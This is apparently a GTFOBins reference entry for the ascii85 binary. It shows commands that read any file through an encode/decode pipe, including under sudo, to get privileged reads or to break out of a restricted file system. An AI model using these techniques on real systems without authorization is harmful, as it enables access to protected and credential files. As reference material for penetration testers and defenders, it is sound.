 # GTFOBin: ascii85

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ascii85 "$LFILE" | ascii85 --decode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ascii85 "$LFILE" | ascii85 --decode
```